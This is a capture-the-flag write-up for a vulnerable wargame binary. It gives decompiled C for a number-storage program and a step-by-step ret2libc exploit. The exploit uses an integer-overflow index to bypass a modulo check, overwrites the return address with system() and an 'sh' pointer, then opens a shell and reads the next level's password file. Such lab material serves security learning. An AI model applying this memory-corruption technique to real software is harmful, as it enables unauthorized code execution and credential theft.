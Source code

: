 # LEVEL 05

* decompile the binary:
    ```c
    int store_number(int *data)
    {
        int num = get_unum();
        int idx = get_unum();

        if (idx % 3 != 0 && (num >> 0x18) != 0xb7)
        {
                data[idx] = num;
                return (0);
        }
        ...
    }

    int main(int ac, char **av, char **env)
    {
        int input[25];
        int  error = 0;
        char cmd[20];

        ...
        while (1)
        {
            error = 1;
            fgets(cmd, 0x14, stdin);
            cmd[strlen(cmd) - 1] = 0;
            if (strncmp(cmd, "store", 5) == 0)
                error = store_number(input);
            ...
            else if(strncmp(cmd, "quit", 4) == 0)
                return(0);
            ...
        }
    }
    ```
    - read cmd from input 
    - if cmd is `"store"` call store_number(input)
        + read number and index
        + compare index % 3 != 0
        + if true: store the number in input at index
    ___

* prepare:
    - we need to override the return addres at input[114]
    - but 114 % 3 == 0
    - we find ``1073741938 where 0xffffd544 + 1073741938 == 0xffffd70c``
    ___

* exec bin:
    - write store
    - write 4159090384
    - write 1073741938
    - write store
    - write 134513381
    - write 116
    - write quit -> got shell prompt
    - cat /home/users/level08/.pass -> flag
    ___

* explanation
    ```
    0x080482e5 == 134513381 -> "sh"
    0xf7e6aed0 == 4159090384 -> system()
    0xffffd544 -> stack array(input)
    0xffffd70c -> return address
    0xffffd714 -> system() param address

    0xffffd70c - 0xffffd544 == 456
    456 / 4 = 114
    114 % 3 == 0 -> we can't use this index

    0xffffffff - 0xffffd544 == 10939
    10939 + 1 + 0xffffd70c == 4294967752
    4294967752 / 4  == 1073741938

    0xffffd544 + 1073741938 == 0xffffd70c !!!

    0xffffd714 - 0xffffd544 == 464
    464 / 4 = 116
    ```
